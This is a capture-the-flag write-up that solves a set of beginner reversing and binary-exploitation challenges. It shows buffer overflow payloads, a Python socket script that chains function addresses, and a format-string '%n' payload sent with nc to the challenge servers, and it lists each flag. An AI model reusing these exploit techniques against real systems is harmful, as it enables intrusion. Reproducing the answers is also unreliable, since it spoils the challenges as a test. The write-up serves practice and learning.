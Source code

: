 # BE01
```
Download the file at https://ggcs-files.allyourbases.co/be01.zip and find a way to get the flag from the program.
```
Simply running strings on the file will get us our flag!

![Simple strings](/images/BE01.png)

Flag: sTriNGS-r-EZ-7819

# BE02
```
Download the file at https://ggcs-files.allyourbases.co/be02.zip and find out what the program does to get the flag.
```
We are given some c code, so we can compile this all with `gcc`. Command used is:`gcc program.c -o program`.
And then simply running the generated ELF gives us the flag.

![Using gcc](/images/BE02.png)

Flag: c0mpILE-tIME_1822

# BM01
```
Download the file at https://ggcs-files.allyourbases.co/bm01.zip and figure out how to exploit the program.

Once you obtain the placeholder flag through exploitation prove your work by sending the same exploit to the network service at ggcs-bm01.allyourbases.co port 8134 to get the flag.
```

We can use `gdb program` to figure out what the program is doing.
We use `info func` to view functions, and `disas main` to see the assembly.
There is an interesting line which is
```
0x000006d6 <+153>:   cmp    BYTE PTR [ebp-0x9],0x62
```
This compares the byte at `ebp-0x9` with `0x62`, which is "b".
After a bit of experimentation, I was able to get the sample flag on local by adding 50 * "a" and then adding a "b" on the end.
We can do the same on the remote to get the flag.

Final payload: `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAb`

Flag: c0MinG-Up_bs-8788

# BH01
```
Download the file at https://ggcs-files.allyourbases.co/bh01.zip and find a way to extract the flag.

Note that the flag must be submitted as 'normal' text which you might read in a book.
```
If we open the file up in a hex editor, we see the word flag, but there doesn't appear to be anything after it at first.
However, by accident, I figured that if you try copy the hex into a text file, it appears to be some text in English, however it was upside down.
We convert this to normal English, keeping the capitalization to get the flag.

Flag: inSIDEoUT

# BH02
```
Download the files at https://ggcs-files.allyourbases.co/bh02.zip and figure out how to exploit the program.

Once you obtain the placeholder flag through exploitation prove your work by sending the same exploit to the network service at ggcs-bh02.allyourbases.co port 8133 to get the flag.
```
Again, we open this up in `gdb`
We can see again, there is that line that compares bytes.
```
   0x00000744 <+215>:   cmp    BYTE PTR [ebp-0x9],0x66
```
0x66 is "f" in ASCII, but I wasn't able to get the placeholder flag, so I looked again.
I opened it up in `ghidra`, and saw the memcmp function, which compared the previous two bytes to `:)`
It appears that we also need to add a ":)" before our f, and so I kept bruteforcing the padding, eventually getting the sample flag.

Final payload: `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:)f`

Flag: caNaRY-CoalMINE-2811

# BH03
```
Access the network service at ggcs-bh03.allyourbases.co port 1337 and follow the instructions it gives you to obtain the flag.
```
When we connect with `nc ggcs-bh03.allyourbases.co 1337`, we can see it wants us to call 3 functions.
This is a simple ROPchain task, where we overwrite the EIP register 3 times. 
To call the functions, we need padding so that we can overwrite things, and then we include the addresses of the functions.
I wrote a script to do this for me.
```
import socket
import struct
p32 = lambda x : struct.pack('I', x)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('ggcs-bh03.allyourbases.co', 1337))
print(s.recv(1024))
a = s.recv(1024)
b = a.split("\n")
x = int((b[4].split(": "))[1],16)
y = int((b[3].split(": "))[1],16)
z = int((b[2].split(": "))[1],16)
payload = "A" * 45 + p32(x) + p32(y) + p32(z) + "\n"
print(payload)
s.send(payload)
print(s.recv(1024))
print(s.recv(1024))
print(s.recv(1024))
```
Running the script gives us 3 strings.
```
PTi0xOTkw
UVE9mdW5jVGl
RmxhZzogUmV
```
If we put these in reverse order and base64 decode, we get the flag.

Flag: ReTTOfuncTiON-1990

# BX01
```
Access the network service at ggcs-bx01.allyourbases.co port 9171 and find a way to exploit it to get the flag.
```
For this challenge, we need to get the value from 1337 to 1. 
We can do this with a format string, specifically `%n`
Doing it once on the remote by sending `a%n` gives us the output
```
Object validated, contents is 'Rig'
```
So we just need to do this multiple times to get the flag.
The number ended up being 14 times.
```
python -c "print 'A'+'%n'*14" | nc ggcs-bx01.allyourbases.co 9171
```

Flag: tRUNkated-EveRYTHinG-6761
